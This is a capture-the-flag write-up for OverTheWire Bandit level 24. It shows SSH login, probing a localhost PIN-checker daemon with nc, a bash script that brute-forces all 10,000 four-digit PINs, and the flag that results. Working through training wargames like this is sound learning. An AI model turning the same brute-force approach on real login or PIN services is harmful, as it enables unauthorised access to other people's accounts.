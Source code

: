 # Bandit 24

### Content
- **[Overview](#Overview)**
- **[Connecting](#Connecting)**
- **[Looking Around](#Looking-Around)**


## Overview

-----------------
On the OverTheWire/Bandit website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Bandit0 -> Level 0
- Bandit1 -> Level 1
- ...
- Bandit33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `bandit.labs.overthewire.org` server on `port 2220` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` commandline
┌──(francis㉿ghost)-[~]
└─$ ssh bandit{level}@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit{level}@bandit.labs.overthewire.org's password: 
```

The password will always be the flag of the previous level.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`:

``` commandline
┌──(francis㉿ghost)-[~]
└─$ ssh bandit24@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

bandit24@bandit:~$ 
```

## Task

--------------

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 
and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 
combinations, called brute-forcing.

You do not need to create new connections each time

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).

``` text
bandit24@bandit:~$ ls
bandit24@bandit:~$
```

Alright. After looking at the `task` we are supposed to create a brute force attack against a specific port. This is very
interesting. 

Let's first connect to `port 30002` on `localhost` manually using `nc` to figure out what's going on. 

``` commandline
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
kdh

Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.




Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
```

So, if we give the server a bunch of lines, it will give us a response for each line. This is very good. This means there
is no *cooldown* phase between attempts. We can brute force the shit out of this. 

Now, one last test. We give `nc` stdin vie the `printf` command to see what happens.


``` commandline
bandit24@bandit:/tmp/tmp.InSKmCxozg$ printf "\n\n\n\n\n\n\n" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
Fail! You did not supply enough data. Try again.
```

Alright. This is all we need to know to crack this level. 

We will create a bash scrip that iterates from `0000..9999` and appends each number to a string containing the password
of the current level: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`.

Let's create a `temp` directory via the `mktemp` command and `cd` into that directory.

``` commandline
bandit24@bandit:~$ mktemp -d
/tmp/tmp.InSKmCxozg
bandit24@bandit:~$ cd /tmp/tmp.InSKmCxozg
bandit24@bandit:/tmp/tmp.InSKmCxozg$ 
```

Let's now create the `brute.sh` file and make it executable.

``` commandline
bandit24@bandit:/tmp/tmp.InSKmCxozg$ touch brute.sh
bandit24@bandit:/tmp/tmp.InSKmCxozg$ chmod +x ./brute.sh
```
Now, we add the following code to the `brute.sh` file.

``` commandline
#! /bin/bash

for (( i=0 ; i<10000 ; i++ )) {
        pad=$(printf "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar %04d" $i)
        echo $pad >> try.txt
}

cat try.txt | nc localhost 30002 > results.txt
```

Once we have done that we can run the script.

``` commandline
bandit24@bandit:/tmp/tmp.InSKmCxozg$ ./brute.sh
bandit24@bandit:/tmp/tmp.InSKmCxozg$
```

We now need to get rid of all the lines in the file that contain the phrase "Fail!" in it. I thought that it would  be
simplest to just use the `uniq` command, as each line before the correct line will be the same and afterward too.

``` commandline
bandit24@bandit:/tmp/tmp.InSKmCxozg$ uniq results.txt
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

Boom we got another flag.


